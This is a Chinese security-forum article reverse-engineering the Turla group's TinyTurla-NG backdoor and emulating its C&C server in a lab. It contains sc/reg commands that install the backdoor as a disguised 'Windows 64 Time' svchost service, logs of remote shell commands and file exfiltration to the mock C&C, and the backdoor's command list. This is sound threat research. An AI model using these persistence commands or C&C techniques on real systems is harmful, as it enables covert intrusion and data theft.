# 逆向开发 Turla 组织 TinyTurla-NG 新后门 C&C 站点 - 先知社区

逆向开发 Turla 组织 TinyTurla-NG 新后门 C&C 站点

- - -

## 概述

在上一篇《逆向开发 Turla 组织 TinyTurla 后门控制端》文章中，笔者先从 TinyTurla 后门入手，对 TinyTurla 后门开展了相关研究分析工作，通过对 TinyTurla 后门的通信模型进行详细的剖析，模拟构建了 TinyTurla 后门的控制端。

因此，在本篇文章中，笔者将按照上一篇文章的研究思路，尝试对思科 Talos 团队《TinyTurla Next Generation - Turla APT spies on Polish NGOs》（ [https://blog.talosintelligence.com/tinyturla-next-generation/](https://blog.talosintelligence.com/tinyturla-next-generation/) ）报告中提到的 Turla 组织使用的新后门（TinyTurla-NG）进行研究分析，并从如下角度开展研究工作：

-   TinyTurla-NG 新后门与 TinyTurla 后门的植入方式相同，均是以服务 DLL 的形式出现，并且均是通过 svchost.exe 启动，因此先尝试对 TinyTurla-NG 新后门的运行场景进行复现；
-   TinyTurla-NG 新后门的功能代码较 TinyTurla 后门复杂一些，通过对 TinyTurla-NG 新后门开展逆向分析工作，对其样本功能及运行逻辑进行详细剖析梳理；
-   通过动态调试，研究分析 TinyTurla-NG 新后门的通信模型；
-   尝试构建 TinyTurla-NG 新后门 C&C 站点，模拟复现 TinyTurla-NG 新后门的远程控制行为及恶意流量。

相关报告截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083334-d75325a6-d507-1.png)

## 新后门 C&C 站点效果

通过构建 TinyTurla-NG 新后门 C&C 站点程序，我们可模拟实现 TinyTurla-NG 新后门的使用场景。

C&C 站点程序启用后，我们可正常访问其 WEB 服务，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083349-e04f9aae-d507-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083402-e80fc764-d507-1.png)

TinyTurla-NG 新后门上线后，即可开展正常的远控行为，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083416-efd6b944-d507-1.png)

通信过程中 C&C 站点中内置的远控指令如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083428-f788c664-d507-1.png)

通信过程中 C&C 站点记录的远控指令响应结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083446-01c85c2a-d508-1.png)

通信过程中 C&C 站点对窃取的文件内容进行保存，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083458-09172650-d508-1.png)

通信过程中产生的 http 通信数据包截图如下：（**将 TinyTurla-NG 新后门文件中的内置 https 外联 URL 修改为 http 外联 URL 即可实现对 HTTP 站点的访问**）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083510-10682fe4-d508-1.png)

相关操作命令如下：

```plain
F:\GolandProjects\awesomeProject3>awesomeProject3.exe
[GIN-debug] [WARNING] Creating an Engine instance with the Logger and Recovery middleware already attached.

[GIN-debug] [WARNING] Running in "debug" mode. Switch to "release" mode in production.
 - using env:   export GIN_MODE=release
 - using code:  gin.SetMode(gin.ReleaseMode)

307b5c9a Client Ready
[GIN] 2024/02/26 - 13:43:15 | 200 |      1.0621ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:25 | 200 |       1.686ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:35 | 200 |      2.0395ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a [+] ShortTimer and FailCounter changed. New ShortTimer is 1 minute & New FailCounter is 1
[GIN] 2024/02/26 - 13:43:36 | 200 |      1.5504ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:42 | 200 |      1.8533ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Bluetooth ��������:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter ��������:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::5c38:ccd5:e424:fdfc%11
   IPv4 Address. . . . . . . . . . . : 192.168.153.130
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

Tunnel adapter isatap.{8B288427-3826-4FFD-BF89-490C950BBA8A}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Tunnel adapter isatap.localdomain:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::5efe:192.168.153.130%15
   Default Gateway . . . . . . . . . :

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:43:43 | 200 |     15.2158ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:50 | 200 |      2.0944ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>calc.exe

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:43:53 | 200 |      1.0216ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:00 | 200 |      1.9848ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>dir C:\Users\admin\Desktop
 Volume in drive C has no label.
 Volume Serial Number is DEA8-B705

 Directory of C:\Users\admin\Desktop

2024/02/26  11:31    <DIR>          .
2024/02/26  11:31    <DIR>          ..
2024/02/22  23:13               507 111.txt
2011/09/29  09:22            32,256 apateDNS.exe
2019/01/23  23:23            45,272 nc64.exe
2023/11/27  14:41             2,182 Process Hacker 2.lnk
2023/11/27  14:39    <DIR>          snapshot_2023-11-18_02-28
2023/11/27  14:40             1,315 x96dbg.exe - ????.lnk
              15 File(s)     14,600,939 bytes
               4 Dir(s)  49,213,665,280 bytes free

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:44:00 | 200 |      1.9138ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:06 | 200 |       652.7µs | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"

[GIN] 2024/02/26 - 13:44:06 | 200 |         521µs | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:08 | 200 |      3.0731ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a [+] File C:\Users\admin\Desktop\111.txt posted

[GIN] 2024/02/26 - 13:44:08 | 200 |      1.4707ms | 192.168.153.130 | POST     "/wp-includes/blocks/rss.old.php"
307b5c9a
```

## 新后门运行场景复现

根据报告中的描述，TinyTurla-NG 新后门与 TinyTurla 后门的植入方式相同，均是以服务 DLL 的形式出现，并且均是通过 svchost.exe 启动。因此，为了能够快速对 TinyTurla-NG 新后门的运行场景进行复现，我们可以模仿《逆向开发 Turla 组织 TinyTurla 后门控制端》文章中针对 TinyTurla 后门的运行场景复现方法，对 TinyTurla-NG 新后门的运行场景进行复现。

先将 TinyTurla-NG 新后门重命名为 w64time.dll，然后在 cmd 中执行如下指令，即可对 TinyTurla-NG 新后门的运行场景进行有效复现：

```plain
copy "w64time.dll" %systemroot%\system32\

sc create W64Time binPath= "c:\Windows\System32\svchost.exe -k TimeService" type= share start= auto
sc config W64Time DisplayName= "Windows 64 Time"
sc description W64Time "Maintain date and time synch on all clients and services in the network"

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /t REG_MULTI_SZ /d "W64Time" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%systemroot%\system32\w64time.dll" /f

sc start W64Time
```

相关执行效果截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083532-1d593d74-d508-1.png)

## 样本功能分析

通过对 TinyTurla-NG 新后门进行逆向分析，梳理 TinyTurla-NG 新后门运行逻辑如下：

-   服务成功启动后，将调用 ServiceMain 函数，在 ServiceMain 函数中，将调用 beginthreadex 函数创建主感染线程；
-   在主感染线程中，样本将创建两个线程：
    -   第一个线程主要用于向 C&C 发起网络通信；
    -   第二个线程主要用于对第一个线程中接收的远控命令进行执行；

### 创建主感染线程

服务成功启动后，样本将调用 ServiceMain 函数。在 ServiceMain 函数中，样本将通过调用 beginthreadex 函数来创建主感染线程。beginthreadex 函数的第四个函数参数为线程入口函数参数，在此样本中传入的是一个结构体，最后通过在入口函数中调用结构体中的函数地址以实现线程执行。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083552-291a9ff4-d508-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083608-32ff1d88-d508-1.png)

### 初始化配置结构体

进入主感染线程后，样本将执行一系列初始化操作，对后续代码执行过程中所需的配置信息进行初始化。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083626-3d6ebb52-d508-1.png)

### 检测 powershell 版本及 windows 版本

在开始远控功能时，样本还将尝试获取 powershell 版本及 windows 版本信息，若 powershell 版本大于等于 5，则后续将调用 powershell 用于执行远控 shell 指令。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083642-4758ff24-d508-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083659-5142b908-d508-1.png)

### 线程一

线程一主要用于向 C&C 发起网络通信，发起网络通信使用的 API 为 WINHTTP，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083716-5b393bda-d508-1.png)

### 线程二

线程二主要用于对第一个线程中接收的远控命令进行执行，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083734-66203f9e-d508-1.png)

### 远控指令

通过分析，发现 TinyTurla-NG 新后门支持多个远控指令，远控指令外的命令将以 shell 方式进行执行。

特殊指令如下：

| 指令  | 备注  |
| --- | --- |
| changepoint | 检索在受感染端点上执行命令的结果 |
| timeout | 重新配置后门向 C&C 发起任务请求的间隔休眠时间 |
| changeshell | 切换执行 shell 的方式，在 powershell 与 cmd 之间切换 |
| get | 从 C&C 处获取文件并保存 |
| post | 上传文件至 C&C 处 |
| killme | 删除文件 |

#### 执行 shell 命令

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083753-71607752-d508-1.png)

#### timeout 指令

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083810-7bc75e90-d508-1.png)

#### post 指令

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083827-857c707e-d508-1.png)

#### killme 指令

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083842-8e80ff28-d508-1.png)

### 外联地址

通过分析，发现 TinyTurla-NG 新后门的外联地址是以明文形式存放于样本文件中的，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083859-988ef4b6-d508-1.png)

## C&C 思考

通过对 TinyTurla-NG 新后门进行逆向分析，我们发现此样本的 C&C 地址为 WEB 服务网站。

结合思科报告中关于 C&C 的描述，我们发现 TinyTurla-NG 新后门的部分 C&C 地址存在文件路径泄露，相关截图如下：

